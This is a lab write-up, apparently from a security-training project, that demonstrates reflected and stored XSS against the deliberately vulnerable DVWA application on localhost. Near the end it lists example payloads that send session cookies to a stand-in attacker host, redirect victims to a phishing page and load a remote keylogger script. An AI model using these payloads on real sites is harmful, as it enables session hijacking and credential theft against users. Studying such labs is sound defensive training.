

# Attack Simulation 4 – Cross-Site Scripting (XSS) - Reflected & Stored

## 🎯 Objective

Demonstrate exploitation of both **Reflected** and **Stored** Cross-Site Scripting (XSS) vulnerabilities in the DVWA application. Simulate the **impact** of these attacks by exfiltrating the session cookie to prove real-world consequences like session hijacking.

---

## 🧠 What is XSS?

**Cross-Site Scripting (XSS)** is a client-side code injection attack. It occurs when an attacker is able to inject malicious scripts (usually JavaScript) into content served to users.

When the browser receives this malicious content, it executes it **in the context of the vulnerable application** — as if it were trusted.

### Types Demonstrated:
- **Reflected XSS** – Injected code is reflected immediately via the URL or form input.
- **Stored XSS** – Injected code is stored on the server (e.g., in a database) and executed every time a user accesses the infected page.

---

## 🧪 Environment

- **Target**: DVWA running on Ubuntu (`localhost`)
- **Security Level**: `Low` (to allow raw script injection)
- **Attacker**: Local browser (simulating a victim user)

---

## 1️⃣ Reflected XSS Exploitation

### 🔧 Vulnerable Input:
URL parameter `name` in `/xss_r.php`

### 🧬 Payload Used:
```html
<script>alert('XSS')</script>
```


*Figure 1: Website*


*Figure 2: XSS (Reflected) attack*

### 💥 Effect:
- JavaScript executed immediately
- Proved that the application reflects unescaped input back into the browser
- No filtering or sanitization was applied

---

## 2️⃣ Stored XSS Exploitation

### 🔧 Vulnerable Input:
DVWA > `XSS (Stored)` module > Guestbook form

- **Name**: `cookie`
- **Message**:
```html
<script>alert(document.cookie)</script>
```

### 💥 Effect:
- Malicious JavaScript stored in backend database
- Triggered automatically for any user visiting the guestbook
- Alert displayed **PHPSESSID and security level**

### ✅ Demonstrated Real Impact:
```js
alert(document.cookie);
```

This revealed:
```
PHPSESSID=ufj3lg39cbj36me010uedeb9l; security=low
```



*Figure 3: XSS attack to reveal cookies used*

This proves:
- Session hijacking is possible
- Any attacker could impersonate another user

---

## 🔐 Advanced Exploit Possibilities

Instead of just `alert()`, a real attacker could use:

### 📤 1. Steal Cookie (exfiltration)
```html
<script>new Image().src='http://attacker.com/log?cookie=' + document.cookie</script>
```

Would silently send the session to a malicious server.

### 🔁 2. Redirect to Phishing Page
```html
<script>window.location='http://malicious-site.com/login'</script>
```

Would redirect the victim to an external fake login page for credential harvesting.

### 📹 3. Load Keylogger
```html
<script src="http://attacker.com/keylogger.js"></script>
```

Executes external malicious JS hosted elsewhere.

---

## 📌 Summary

| Aspect | Detail |
|--------|--------|
| Vulnerabilities | Reflected XSS, Stored XSS |
| Exploited? | ✅ Yes |
| Demonstrated | Code execution, Cookie theft |
| Impact | Session hijacking, arbitrary JS execution |
| Tools | Browser only (manual injection) |
| Payloads Used | `<script>alert(...)`, `document.cookie` |
| Screenshots | Attached for both reflected and stored cases |

---

## ✅ Conclusion

We successfully exploited both **Reflected** and **Stored XSS** in DVWA. While we used `alert()` and `document.cookie` for demonstration purposes, the same flaw can be escalated to session hijacking, phishing, data exfiltration, and browser exploitation in real-world targets.

---

> 🔴 This confirms a **critical vulnerability (CWE-79)** and would be rated as **High** or **Critical** in most web application pentests.
